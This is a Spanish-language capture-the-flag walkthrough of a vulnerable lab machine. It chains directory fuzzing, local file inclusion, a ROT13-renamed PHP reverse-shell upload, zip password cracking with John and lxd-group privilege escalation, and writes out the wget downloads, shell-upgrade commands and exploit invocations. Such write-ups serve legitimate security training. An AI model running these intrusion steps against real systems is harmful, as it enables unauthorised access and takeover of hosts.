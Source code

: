# User flag

Iniciamos el análisis de la máquina realizando un escaneo con **Nmap** para identificar los puertos abiertos. Los resultados muestran que los puertos 22 (SSH) y 80 (HTTP) están accesibles:

![](Images/nmap.png)

Accedemos al sitio web disponible en el puerto 80 y encontramos la siguiente página principal:

![](Images/web-page.png)

Tras interactuar con la página, no identificamos información relevante que pudiera ser utilizada como un posible vector de ataque. Por ello, decidimos realizar un ataque de _fuzzing_ de directorios utilizando **Gobuster** para descubrir posibles recursos ocultos:

![](Images/gobuster.png)

Durante el _fuzzing_, encontramos un directorio llamado **wow**. Al acceder, encontramos una pista:

![](Images/wow.png)
Sin embargo, esta pista no aporta información útil para este punto de la intrusión. Continuamos explorando posibles evidencias en la página y observamos varias referencias a la palabra **NAMARI**. Esto nos lleva a probar la existencia de un directorio con ese nombre, logrando acceder con éxito.

![](Images/namari.png)

En el directorio **NAMARI**, encontramos una funcionalidad que permite subir archivos y realizar _inclusión de archivos locales_ (**LFI**, _Local File Inclusion_). Para comprobar el funcionamiento de esta funcionalidad, intentamos incluir el archivo `/etc/passwd`:

![](Images/etc-passwd.png)

Aunque logramos acceder a este archivo, no tuvimos éxito al intentar acceder a otros archivos de configuración. Por otro lado, la funcionalidad de subida de archivos parecía permitir la transferencia, pero al intentar acceder a los archivos subidos en el endpoint `uploads`, recibimos un error.

Ante esta situación, decidimos analizar el archivo `index.php` (responsable de manejar la funcionalidad de LFI y subida de archivos).

![](Images/php.png)

Después de ejecutar la petición, se nos muestra una cadena de caracterers en base64 los cuales decodeamos para obtener el contenido  del archivo `index.php`.

```bash
echo "Cgo8IURPQ1RZUEUgaHRtbD4KPGh0bWwgbGFuZz0iZXMiPgo8aGVhZD4KICAgIDxtZXRhIGNoYXJzZXQ9IlVURi04Ij4KICAgIDx0aXRsZT5TdWJpZGEgZGUgQXJjaGl2b3MgeSBMRkk8L3RpdGxlPgogICAgPHN0eWxlPgogICAgICAgIGJvZHkgewogICAgICAgICAgICBmb250LWZhbWlseT..." | base64 -d > index.php
```

Al examinar el código, notamos que el nombre del archivo subido es transformado mediante la función **ROT13** antes de ser almacenado en el servidor.

![](Images/INDEX-PHP.png)

Con esta información, generamos una [reverse shell en PHP](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) y la subimos con el nombre `rev.php`. Posteriormente, utilizamos ROT13 para transformar el nombre del archivo a `eri.php`, permitiéndonos ejecutar la reverse shell.

![](Images/rev.png)

Para hacer la conversión yo use un [recurso online](https://es.functions-online.com/str_rot13.html).

A continuación, consultamos el archivo contenido en la carpeta uploads http://192.168.1.62/NAMARI/index.php?page=uploads/eri.php y obtenemos acceso como el usuario **www-data**.

![](Images/www-data.png)

Para poder trabajar con mayor comodidad recomiendo hacer un upgrade de la shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo; fg  
reset xterm
export TERM=xterm
export SHELL=bash
```

En la página web se nos daba la pista de acceder al directorio */opt*, así que lo hacemos, encontrando un archivo de backup.

![](Images/backup.zip.png)

Para transmitir el archivo a nuestra máquina local y analizarlo mejor ejecutamos los siguientes comandos:

```bash
# target machine
python3 -m http.server 1234

# local machine
wget 192.168.1.62:1234/pot/.XXX/backup.zip 
```

Al intentar descomprimir el archivo zip nos encontramos con que necesitamos una contraseña para hacerlo.

![](Images/zip-needs-pass.png)

De todas maneras, no está todo perdido, ya que podemos crackear el archivo zip utilizando `John`. Para ello primero pasamos el archivo zip  a formato `John`.

```bash
zip2john backup.zip > backup_hash_file 
```

Después, ejecutamos `John` usando la wordlist rockyou para crackear el archivo y encontrar su contraseña.

![](Images/pass.png)

Al exportar el contenido del archivo zip encontramos lo que parece ser la contraseña del usuario Rodgar.

![](Images/rodgar-pass.png)

Al ejecutar el comando `su Rodgar` para cambiar al usuario Rodgar utilizando la contraseña tenemos éxito y ya podemos obtener la flag de user.


# Root flag

Para la escalada de privilegios, transferimos **LinPEAS** a la máquina víctima y lo ejecutamos para identificar vulnerabilidades:

```bash
# local machine
python3 -m http.server 80

# target machine
wget http://192.168.1.53/linpeas.sh 
```

Al ejecutarlo, vemos como se nos marca en amarillo la pertenencia al grupo sudo y al grupo lxd.

![](Images/linpeas.png)

Tras una breve pregunta a ChatGpt sobre lo que es **lxd** este nos dice:

`Los miembros del grupo lxd pueden crear y administrar contenedores, lo que puede ser aprovechado para obtener acceso de superusuario (root) en el sistema anfitrión.
`

Para llevar a cabo la explotación de **lxd** podemos hacerlo manualmente siguiendo la guía de [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) o utilizar el exploit disponible en searchsploit.

![](Images/se-lxd.png)

Al revisar el contenido del exploit vemos cuales son los distintos pasos a seguir:

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine

sudo ./build-alpine

# local machine
python3 -m http.server 80

# target machine
wget http://192.168.1.53/46978.sh 
wget http://192.168.1.53/alpine-v3.13-x86_64-20210218_0139.tar.gz 

./46978.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz 
```

Después de ejecutar el exploit ya obtenemos acceso a la máquina como root.
